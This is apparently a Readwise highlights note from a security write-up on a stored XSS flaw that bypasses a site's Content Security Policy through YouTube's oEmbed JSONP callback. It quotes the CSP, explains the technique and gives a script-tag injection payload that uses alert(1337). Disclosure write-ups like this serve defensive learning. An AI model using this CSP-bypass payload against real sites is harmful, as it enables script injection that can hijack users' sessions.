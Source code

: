 ```yaml
---
author: SMHTahsin33
aliases:
  - "Riding the Waves of API Versioning: Unmasking a Stored XSS Vulnerability"
  - CSP Bypass Using YouTube OEmbed
tags:
  - readwise/articles
url: https://infosecwriteups.com/riding-the-waves-of-api-versioning-unmasking-a-stored-xss-vulnerability-bypassing-csp-using-c039c10df2b1
date: 2024-08-20
---
```

# Riding the Waves of API Versioning: Unmasking a Stored XSS Vulnerability, CSP Bypass Using YouTube OEmbed

![rw-book-cover](https://readwise-assets.s3.amazonaws.com/media/uploaded_book_covers/profile_1116209/1LdxfNi_hcHDwQ1JUosYsTw.png)

## Highlights


> The defined Content Security Policy is as below:
> ```
 >default-src 'self';frame-src https:; script-src 'self' 
>  https://player.vimeo.com/ https://www.youtube.com/ https://s.ytimg.com/; 
>  child-src https://www.youtube.com; 
>  connect-src 'self' https:; img-src 'self' data: https://i.ytimg.com/ 
>  https://app.redacted.com/ https://fakeimg.pl/; 
>  style-src 'self' 'unsafe-inline'; font-src 'self';
>```
> [View Highlight](https://read.readwise.io/read/01hgzqykv470hfph1en8511srs)



# Bypassing CSP : Leveraging YouTube’s OEmbed Function

>  YouTube has an interesting function called **oEmbed**, used for video embedding purposes. But the interesting part is that it also allows a **“Callback”** **parameter**. Every input there, is reflected on the page and the **content-type** is also identified as **text/javascript**, to provide [JSONP](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/JSONP%20vulnerabilities.md) integrations
> [View Highlight](https://read.readwise.io/read/01hgzqzgxrrjqyd2rqcng1ae4t)



> Now we if we visit [https://www.youtube.com/oembed?callback=alert(1337);](https://www.youtube.com/oembed?callback=alert%281337%29%3B) we can see that it is a valid JS now with a delimiter too.
> [View Highlight](https://read.readwise.io/read/01hgzr0a2fjeyj4tgkcp3y30re)



> we can craft our payload as: 
>  ```html
>  \"><script src=“*[*https://www.youtube.com/oembed?callback=alert(1337);*](https://www.youtube.com/oembed?callback=alert%281337%29%3B)*”></script>
>```
>  ![](https://miro.medium.com/v2/resize:fit:700/1*kjAYqF_QDDzvwBAGvhJ5tg.png)
>  Now we can add this to our project and visit the preview page.
>  ![](https://miro.medium.com/v2/resize:fit:700/1*YWafcNz-VPenm9LeUX7gyQ.png)
>  ![](https://miro.medium.com/v2/resize:fit:651/1*piOeGDUlh4hCqHtsvFTlTA.png)
> [View Highlight](https://read.readwise.io/read/01hgzr1bxxrx5b4rndmgqdjnf0)

